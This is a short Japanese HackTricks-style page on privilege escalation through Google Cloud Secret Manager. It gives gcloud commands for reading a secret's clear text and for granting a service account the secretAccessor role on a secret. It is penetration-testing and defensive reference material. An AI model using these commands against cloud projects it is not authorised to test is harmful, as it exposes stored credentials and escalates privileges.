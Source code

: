 # GCP - Secretmanager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## secretmanager

secretmanagerに関する詳細情報:

{{#ref}}
../gcp-services/gcp-secrets-manager-enum.md
{{#endref}}

### `secretmanager.versions.access`

これにより、シークレットマネージャーからシークレットを読み取るアクセスが得られ、シークレット内に保存されている情報に応じて特権を昇格させるのに役立つ可能性があります:
```bash
# Get clear-text of version 1 of secret: "<secret name>"
gcloud secrets versions access 1 --secret="<secret_name>"
```
この技術はポストエクスプロイテーション技術でもあるため、以下に見つけることができます：

{{#ref}}
../gcp-post-exploitation/gcp-secretmanager-post-exploitation.md
{{#endref}}

### `secretmanager.secrets.setIamPolicy`

これにより、シークレットマネージャーからシークレットを読み取るためのアクセスが得られます。例えば、次のように使用します：
```bash
gcloud secrets add-iam-policy-binding <scret-name> \
--member="serviceAccount:<sa-name>@$PROJECT_ID.iam.gserviceaccount.com" \
--role="roles/secretmanager.secretAccessor"
```
{{#include ../../../banners/hacktricks-training.md}}
